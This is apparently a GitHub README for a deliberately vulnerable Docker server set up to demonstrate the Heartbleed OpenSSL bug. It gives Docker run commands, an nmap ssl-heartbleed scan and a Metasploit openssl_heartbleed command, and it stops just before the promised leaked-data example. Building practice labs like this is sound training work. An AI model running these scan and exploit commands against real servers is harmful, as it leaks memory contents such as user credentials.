


# Heartbleed Vulnerable Server
A Debian (Wheezy) Linux system with a vulnerable version of libssl and openssl and a web server to showcase CVS-2014-0160, a.k.a. Heartbleed.

# Overview
This docker container is based on Debian Jessie and has been modified to use a vulnerable version of libssl and openssl.



A simple static web page is served via Apache 2. In order to provide some **juicy** data when exploiting the vulnerability we added a simple form that creates a **cookie** where are stored user credentials.
(We know that this is not a real case scenario but it is useful tu understand how informations are stored in the webserver)

# Usage
Install the container with `docker pull effesociety/heartbleed-vulnerable-server`

Run the container with a port mapping `docker run -d -p 8443:443 effesociety/heartbleed-vulnerable-server`

You should be able to access the web application at http://your-ip:8443/.

# Checking
The web server/vulnerable openssl/libssl version can be verified and exploited as shown below (using a Kali machine is recommended):</br>

``` sh
root@kali:~/heartbleed-vulnerable-server# nmap -sV -p 8443 --script=ssl-heartbleed your-ip
```

# Exploitation
``` sh
msfconsole
root@kali:/tmp# msfcli auxiliary/scanner/ssl/openssl_heartbleed RHOSTS=your-ip RPORT=8443 VERBOSE=true E
```
Here is an example of leaked info:
